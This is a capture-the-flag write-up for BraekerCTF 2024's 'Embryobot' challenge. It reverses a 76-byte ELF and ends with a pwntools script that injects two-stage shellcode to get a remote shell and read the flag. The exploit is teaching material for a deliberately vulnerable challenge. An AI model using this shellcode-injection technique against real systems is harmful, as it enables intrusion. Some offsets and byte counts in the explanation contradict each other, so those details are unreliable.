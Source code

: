 # BraekerCTF 2024

## Embryobot

> "This part will be the head, " the nurse explains. The proud android mother looks at her newborn for the first time. "However, " the nurse continues, "we noticed a slight growing problem in its code. Don't worry, we have a standard procedure for this. A human just needs to do a quick hack and it should continue to grow in no time."
>
>
>The hospital hired you to perform the procedure. Do you think you can manage?
>
>The embryo is:
f0VMRgEBAbADWTDJshLNgAIAAwABAAAAI4AECCwAAAAAAADo3////zQAIAABAAAAAAAAAACABAgAgAQITAAAAEwAAAAHAAAAABAAAA==
>
>  Author: n/a
>

Tags: _rev_

## Solution
For this challenge we don't get a attached file but there is a string that suspiciously looks like `base64` encoded data. Extracting the data and calling `file` on it gives us some insight. The decoded file is a `ELF` file containing compiled `80386` code. Sadly opening the file with `Ghidra` doesnt give us very good results. 

```bash
$ echo "f0VMRgEBAbADWTDJshLNgAIAAwABAAAAI4AECCwAAAAAAADo3////zQAIAABAAAAAAAAAACABAgAgAQITAAAAEwAAAAHAAAAABAAAA==" | base64 -d > foo
$ file foo
foo: ELF 32-bit LSB executable, Intel 80386, version 1, statically linked, no section header
```

Since the file is onle `76 bytes` small this could be some sort of [`Tiny ELF`](https://nathanotterness.com/2021/10/tiny_elf_modernized.html) with all kinds of hacky packing magic going on. As the article well describes, there are `header parts` that can contain processor instructions even though the parts are not ment to contain executable code. But this way functionality can be interleaved with header data generating very small but functioning executable files.

My approach here is to check out regions that cannot be changed and `nop them out` (writing `nop` instructions to this regions) so that we get a more meaningful `disassembly` result. The full hexdump of the file is small, so here is it for reference. As example, the first 10 bytes are: a 4 byte constant signature (EI_MAG), 2 byte first if the executable is targeting 32 bit architectures and second if data is layed out in little endian byteorder (EI_CLASS, EI_DATA) and 4 bytes describing the version (EI_VERSION) (see [`Executable and Linkable Format`](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format)). The signature and class/data cannot be changed so we replace them with `nop` instructions. The EI_VERSION though seems off, it should be `01 00 00 00` so we replace the first byte only, keeping the rest intact for later.

```bash
00000000  7F 45 4C 46  01 01 01 B0   03 59 30 C9  B2 12 CD 80                                           .ELF.....Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 00 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

```bash
00000000  90 90 90 90  90 90 90 B0   03 59 30 C9  B2 12 CD 80                                           .ELF.....Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 00 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

Another interesting bit is the `entry pointer` that is located at offset `18h`. As data is stored in little endian order the entry point is at `8048023h`. This containing the `base address of 8048000h` so the offset within our file is `23h` (starting with the bytes `E8  DF FF FF FF   34...`). Lets see if we get this offset in our disassembly, since we know this has to be valid instructions:

```bash
$ objdump -D -Mintel,i386 -b binary -m i386 foo
...
24:   df ff                   (bad)
26:   ff                      (bad)
27:   ff 90 00 20 00 01       call   DWORD PTR [eax+0x1002000]
...
35:   80 04 08 00             add    BYTE PTR [eax+ecx*1],0x0
...
```

Sadly this is not the case, so we go back to nop out the bytes immediately before the `entry` to help the disassembler a bit. Adding just one nop right before our entry offset unveiles the correct instruction:

```bash
22:   90                      nop               ; our nop we added
23:   e8 df ff ff ff          call   0x7        ; call to 7h
28:   34 00                   xor    al,0x0     ; bad code from here
```

Right, the first thing what the program does after loading is to call to offset `7h`. Luckily we didn't destroy the bytes before.

```bash
00000000  90 90 90 90  90 90 90 B0   03 59 30 C9  B2 12 CD 80                                           .........Y0.....
00000010  02 00 03 00  01 00 00 00   23 80 04 08  2C 00 00 00                                           ........#...,...
00000020  00 00 90 E8  DF FF FF FF   34 00 20 00  01 00 00 00                                           ........4. .....
00000030  00 00 00 00  00 80 04 08   00 80 04 08  4C 00 00 00                                           ............L...
00000040  4C 00 00 00  07 00 00 00   00 10 00 00                                                        L...........
```

```bash
0:   90                      nop                            ; nops we added before
1:   90                      nop
2:   90                      nop
3:   90                      nop
4:   90                      nop
5:   90                      nop
6:   90                      nop
7:   b0 03                   mov    al,0x3                  ; to this offset the first jump goes. this looks like valid
9:   59                      pop    ecx                     ; code setting up an interrupt call.  calling syscall read (eax=3)
a:   30 c9                   xor    cl,cl                   ; writing to the base address (ecx=base address), reading
c:   b2 12                   mov    dl,0x12                 ; a total of 18h bytes (edx=12h), from fd 0 (ebx=0)
e:   cd 80                   int    0x80
10:  02 00                   add    al,BYTE PTR [eax]       ; ... again nonsense data ...
```

The read offset is calculated by popping the return address off the stack (remember, the programm called to offset 5h and a call pushes the offset of the next instruction onto the stack). But the write goes not to the next instruction, but to the `start of the image`. Why is this, you might ask? If we look at the instruction at offset `59h` we see `xor cl, cl` that effectively sets the lowest 8 bit of register `ecx` to zero, leaving is with the base address only (see [`https://x86.syscall.sh/`](https://x86.syscall.sh/)).

Now we know what the program is doing. It reads input from `stdin` and overrides the program code itself with `18` bytes of data. Its important to note that it's exactly 18 bytes, since the interrupt is called at `0eh` the next two bytes are byte 16 and 17. It's important since these are the next instructions executed when the processor returns from the read interrupt. So we can basically define ourself what the processor does next (for instance jumping back to base to execute shellcode we inject).

So we can basically inject 18 bytes of code ourself. To get us a shell for instance. As 18 bytes is fairly small, we can do two stages. First injecting the same code again, but specifying more bytes that are read and then, when we are not space limited anymore, injecting code that gives us shell. 

So stage one looks like this (18 bytes in total)
```bash
nop
nop
nop
nop
nop
nop
nop
mov     al,0x3        ; same as before...
add     ecx, 0x10     ; ...but we start writing to base+10h 
mov     dl, 0x7f      ; ...and with way more bytes that can be read
int     0x80
jmp     ecx           ; jump back to base address (nop slide down) and read again
```

Right, if we send this (as shellcode) to the program, the program reads again, but now without a strict limitation. Now we can inject any shellcode we like (for comfort just using `shellcraft`). Also we don't write to the base again, but directly starting with the offset the next instruction is executed (10h). Here's the full script.

```python
from pwn import *

p = remote("0.cloud.chals.io", 20922)

stage1 = asm(
"""
    nop
    nop
    nop
    nop
    nop
    nop
    nop
    mov al, 0x3
    add ecx, 0x10
    mov dl, 0x7f
    int 0x80
    jmp ecx
""")

p.send(stage1)
p.send(asm(shellcraft.sh()))
p.interactive()
```

Running this gives us shell and we can get the flag

```bash
$ python blub.py
[+] Opening connection to 0.cloud.chals.io on port 20922: Done
[*] Switching to interactive mode
$ ls
babybot
flag.txt
$ cat flag.txt
brck{Th3_C1rcl3_0f_l1f3}$ exit
[*] Got EOF while reading in interactive
$
```

Flag `brck{Th3_C1rcl3_0f_l1f3}`